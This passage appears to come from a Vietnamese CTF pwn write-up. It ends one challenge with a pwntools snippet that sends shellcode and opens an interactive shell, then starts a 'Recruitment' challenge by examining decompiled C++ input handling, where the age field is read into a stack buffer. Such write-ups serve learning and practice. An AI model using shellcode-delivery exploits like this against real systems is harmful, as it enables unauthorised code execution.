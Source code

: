 ```python
p.sendafter(b'components: ',shellcode)


p.interactive()
```



---------------

# Recruitment

- vì reverse C++ là 1 phạm trù gì đó nên mình chạy file trước :v , ở đây ta thấy option1 được nhập ```name``` , ```class``` , ```age```

![image](https://hackmd.io/_uploads/Sy7HKBavJx.png)

- ta chỉ cần chú ý đoạn nhập thôi , ```Name``` và ```Class``` sẽ dùng ```cin``` để input , còn ```age``` thì dùng ```read``` để input và sau đó nó sẽ được sao chép và in ra

```c
char **create_profile(void)
{
  __int64 v0; // rax
  __int64 v1; // rax
  __int64 v2; // rax
  __int64 v3; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  __int64 v11; // rax
  __int64 v12; // rax
  __int64 v13; // rax
  const char *v14; // rsi
  const char *v15; // rax
  char **v16; // rbx
  char buf[256]; // [rsp+0h] [rbp-160h] BYREF
  _BYTE v19[32]; // [rsp+100h] [rbp-60h] BYREF
  _BYTE v20[32]; // [rsp+120h] [rbp-40h] BYREF
  char **v21; // [rsp+140h] [rbp-20h]
  int i; // [rsp+14Ch] [rbp-14h]

  v21 = (char **)operator new[](0x18uLL);
  for ( i = 0; i <= 2; ++i )
    v21[i] = (char *)operator new[](0x64uLL);
  std::string::basic_string(v20);
  std::string::basic_string(v19);
  fflush(_bss_start);
  std::operator<<<std::char_traits<char>>(
    &std::cout,
    "\n[*] You need to enter your Name, Class, and Age.\n\n[+] Name:  ");
  std::getline<char,std::char_traits<char>,std::allocator<char>>(&std::cin, v20);
  std::operator<<<std::char_traits<char>>(&std::cout, "[+] Class: ");
  std::getline<char,std::char_traits<char>,std::allocator<char>>(&std::cin, v19);
  std::operator<<<std::char_traits<char>>(&std::cout, "[+] Age:   ");
  read(0, buf, 0x20uLL);
  v0 = std::operator<<<std::char_traits<char>>(&std::cout, &unk_404010);
  v1 = std::operator<<<std::char_traits<char>>(v0, "\x1B[1;35m");
  v2 = std::operator<<<char>(v1, v20);
  v3 = std::operator<<<std::char_traits<char>>(v2, "\x1B[1;34m");
```